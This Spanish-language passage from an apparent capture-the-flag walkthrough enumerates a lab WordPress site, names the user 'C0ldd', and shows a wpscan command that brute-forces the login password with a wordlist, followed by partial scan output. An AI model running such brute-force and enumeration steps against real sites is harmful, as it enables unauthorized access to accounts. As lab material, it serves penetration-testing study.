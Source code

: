 Si nos vamos a la pagina principal del puerto `80` veremos un `wordpress` y si leemos un poco vemos que esta creado por un usuario llamado `C0ldd` por lo que lo probaremos en la siguiente ruta...

```
URL = http://<IP>/wp-admin/
```

Veremos el panel de login de `wordpress` y si probamos el usuario dira que es valido, ahora tendremos que sacar la contarseña...

```shell
wpscan --url http://<IP>/ --usernames C0ldd --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://192.168.5.129/ [192.168.5.129]
[+] Started: Sun Jun 30 14:05:57 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.5.129/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.5.129/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.5.129/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

```
